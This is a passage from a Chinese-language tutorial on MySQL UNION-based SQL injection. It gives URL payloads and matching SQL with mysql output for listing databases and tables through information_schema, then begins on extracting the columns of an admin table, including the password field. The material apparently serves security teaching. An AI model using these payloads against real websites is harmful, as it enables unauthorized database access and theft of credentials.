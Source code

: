 web语句: http://www.test.com/sql.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1



数据库语句: select * from test where id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1

```plain
mysql> select * from test where id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1;
+----+-------+------+---------+
| id | test  | map  | content |
+----+-------+------+---------+
|  1 | 74cms | 3    | 4       |
+----+-------+------+---------+
1 row in set (0.00 sec)
```

## 0x07 爆表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据

web语句: http://www.test.com/sql.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;

数据库语句: select * from test where id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;

```plain
mysql> select * from test where id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;
+----+-----------+------+---------+
| id | test      | map  | content |
+----+-----------+------+---------+
|  1 | tdb_admin | 3    | 4       |
+----+-----------+------+---------+
1 row in set (0.00 sec)
```

## 0x08 暴字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名

limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password
